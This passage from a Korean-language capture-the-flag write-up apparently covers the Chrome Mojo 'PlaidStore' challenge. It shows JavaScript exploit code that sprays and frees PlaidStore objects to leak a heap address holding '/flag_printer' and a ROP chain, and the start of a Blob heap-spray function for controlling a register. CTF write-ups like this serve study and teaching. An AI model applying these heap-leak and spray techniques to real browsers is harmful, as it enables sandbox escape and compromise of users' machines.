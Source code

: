 ### 2. 원하는 값이 있는 memory 주소 구하기

```jsx
async function leak_string() {
      ptr = new blink.mojom.PlaidStorePtr()
      Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(ptr).handle , 'context', true);

      var spr = [];
      var arr = new Uint8Array(0x500);
      arr.fill(0x0);
      var str = "/flag_printer";
      for (var j = 0; j<str.length; j++) {
        arr[0x10+j] = str.charCodeAt(j);
      }
      for (var i = 0; i < 0x100; i++) {
          spr.push(new blink.mojom.PlaidStorePtr())
          Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(spr[i]).handle , 'context', true);
          spr[i].storeData('key', arr);
      }
      for (var i = 0; i < 0x100; i++) {
          spr[i].ptr.reset();
      }

      arr = new Uint8Array(0x48);
      ptr.storeData("key3", arr);
      tmp = await ptr.getData("key3", 1000000);
      tmp2 = new Uint8Array(tmp.data);
      tmp3 = new Uint32Array(tmp2.buffer);

      // find heap
      for (var i = 0; i < 100000; i++) {
          if ((tmp3[i] & 0xfff) == 0x0 && (tmp3[i] != 0)) {
              if (tmp3[i+2] == (tmp3[i] + 0x500)) {
                  stradd = tmp3[i+1] * (0x100000000) + tmp3[i];
              }
          }
          if (stradd != 0) {
              break;
          }
      }
    }
```

위 코드는 rop chain이 있는 heap 메모리를 얻어야 하는 상황처럼 알고있는 주소에 원하는 값이 있어야 할때 사용했다. PlaidStoreImpl를 할당할 때 원하는 크기에 원하는 값이 있는 uint8_t vector가 같이 할당되기 때문에 그걸 여러번 할당하고 free한 뒤 vector가 가지고 있는 특정 패턴으로 heap pointer를 찾아냈다. 이것을 통해 "/flag_printer" 문자열과 rop chain이 있는 heap memory 주소를 알아왔다.

### 3. heap spray를 통해 rax 조작하기

```jsx
function spray_blobs(size, n, c) {
    if (!c) c = 'A';
    var s = 'z_small'+blob_cnt;
    var b = new Blob([s]);
    var bary = [];
    for (var i = 0; i < n; ++i) {
        bary.push(b);
        if (c instanceof ArrayBuffer) {
            var ab = c.slice(0); // make a copy
            // w64(ab, ab.byteLength - 8, i);
            bary.push(ab);
        } else {
            var s = 'xxxxxxxx';
```